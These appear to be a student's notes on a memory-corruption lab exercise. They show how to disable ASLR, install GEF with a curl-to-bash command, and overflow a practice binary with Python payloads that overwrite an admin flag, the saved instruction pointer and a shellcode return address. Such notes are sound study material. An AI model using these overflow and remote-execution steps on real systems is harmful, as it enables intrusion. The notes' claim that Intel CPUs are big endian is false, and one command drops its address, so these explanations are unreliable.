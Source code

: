 # 4-6 Memory corruption

**Preconditions**
1. download and unzip sources for this exercise
2. TO BE EXECUTED AFTER EVERY REEBOOT: `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`
    - will disable ASLR
3. `bash -c "$(curl -fsSL https://gef.blah.cat/sh)"`
    - installs GEF
        - a tool to help reverse-enginners code developed with GDB
        - https://github.com/hugsy/gef  GEF (GDB enhanced features)
        - https://www.sourceware.org/gdb/ Gnu project debugger
4. `make` > to compile program defined in make file


How to execute: `./mmchallenge password`   (will execute mmchallenge in current dir)


*Remark: if gef is correctly installed we the prompts name is "gef" and not "gdb" (close and reopen terminal?)*

### Exercise 4 Variable overflow

Execute: `./mmchallenge \``python -c 'print("A"*132)'``           *(markdown encoding probably not ok)*          


Info: char array has 128 bytes. here we overwrite it by 4 bytes (as int isAdmin has 4 bytes)

### Exercise 5 SIP overflow with function

Execute: `./mmchallenge \``python -c 'print("A"*142+"\x2c\x13\x40")'``           *(markdown encoding probably not ok)*          
       
Similar to exercise 4 but we overwrite 18 bytes: 
- 128 char array
- 4 for int variable admin
- 12  for SFP and IP

finding address of flag2 (see exercise): 
-  `gdb -q ./mmchallenge`  -> start debugger
- gef> "run `python -c 'print("A"*144)'`"   (markup incorrectly formated)

 0x40132c -> change it to Big Endian 


Execute with address to flag2 (big endian): `./mmchallenge \``python -c 'print("A"*144)'``    

### Exercise 6 SIP overflow with shellcode

- `python ./mmexploit.py 128 0xAAAABBBBCCCCDDDD | hexdump -C`  runs python script (attention, in exercise statement is missing "python")


- `gdb -q ./mmchallenge`  
- gef> run `python -c 'print("A"*142+"BBBB")'`
    - `x/32x $rsp` -> show memory (browse through it with ENTER)
        - find address with AAAA (0x41414141) pass it as argument
    - gef> run "`python ./mmexploit.py 142 0x7fffffffe270`"   (address mustmarkup incorrec, in exercise "r" instead of run)




### Stack layout (info .. also see powerpoint)
Area in memory that is allocated to a program to story temporary variabls and function call info. 


Stack layout  (starting at 0xFFF mem address) 
|        (func parameters)
|        SIP: stored instruction pointer
|        SFP
|   [ variable xx ]
|   [ ss-array 1 ]
|   [ ss-array 0 ]
|        10x (mem address)
- Stack grows down (meaning if we add a variable in code, it will grow down to a lower address) 
- writes go up: so array[2] will actually write into variable xx

### Convert hex to big endian
Big endian is used internally (for historical reasons) by the intel CPU (and maybe others). Therefore, when writing raw data into memory (especially if the data is to be consumed/executed directly by the CPU, in big endian format. 

Basiclly just revert order of bytes!
Example: 0x40132c  -> 0x2c  0x13  0x40



### Varia

ASLR: Address space layout randomization  (My understanding: will randomize address space in order to make memory corruption unpredictable)
